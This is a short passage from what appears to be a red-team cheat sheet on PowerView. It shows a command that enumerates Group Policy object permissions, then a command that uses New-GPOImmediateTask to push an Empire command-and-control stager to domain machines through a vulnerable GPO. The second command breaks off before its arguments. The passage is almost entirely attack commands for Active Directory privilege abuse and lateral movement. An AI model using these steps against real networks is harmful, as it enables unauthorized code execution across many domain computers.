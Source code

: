 ## Powerview

#### 1) Enumerate GPO

    Get-NetGPO | %{Get-ObjectAcl -ResolveGUIDs -Name $_.Name}

#### 2) New-GPOImmediateTask to push an Empire stager out to machines via VulnGPO

    New-GPOImmediateTask -TaskName Debugging -GPODisplayName VulnGPO -CommandArguments
